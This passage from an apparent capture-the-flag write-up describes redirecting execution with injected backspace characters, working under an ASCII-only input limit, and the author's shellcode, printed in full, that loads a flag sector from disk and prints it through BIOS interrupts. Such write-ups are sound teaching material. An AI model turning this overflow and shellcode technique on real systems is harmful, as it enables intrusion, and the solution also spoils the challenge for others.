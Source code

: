 I sent 0x85 `0x08` (backspace) characters, followed by the address of our shellcode.

## The big Problem

We have shellcode execution, where's the flag ?!
Not yet. Unfortunately, we can only send **ASCII** character (so 0x20 - 0x7f).
Luckily I am not the first person to face this problem.
This article [Ascii shellcode - NetSec](https://nets.ec/Ascii_shellcode) as well as this one by Phrack [.:: Phrack Magazine ::.](http://phrack.org/issues/57/15.html) gave me the inspiration to write my own packing engine, that later unpacks the real code into another region on the stack.

We want to to get the following assembly code into memory:


```nasm
; Setting things up and loading the flag drive into memory 
; (change dx to 0x80 for bootloader iirc)
xor bx,bx
mov es, bx
mov bx, 0xf00
mov cx, 0x1
mov dx, 0x82

;mov ah, 0x2
mov ax, 0x0201
int 0x13 ; Interrupt

; We have now loaded the flag @ 0xf00
; Now loop 512 bytes and print bytes as
; We are using a simpler hex (just 4 bits + 0x30, so 
; "0123456789@ABCDE"
mov si, bx ; so we can use lodsb/storeb
xor bx,bx
loop:
    ; read 512 bytes
    cmp bx, 0x100
    je end

    ; loads ds:esi
    lodsb
    mov cl, al
    shr al, 4    
   
    ; Upper 4 bits
    mov ah, 0xe
    add al, 0x30
    int 0x10

    ; Lower 4 bits
    mov al, cl
    and al, 0b1111
    add al, 0x30

    int 0x10

    inc bx
    jmp loop
end:

```
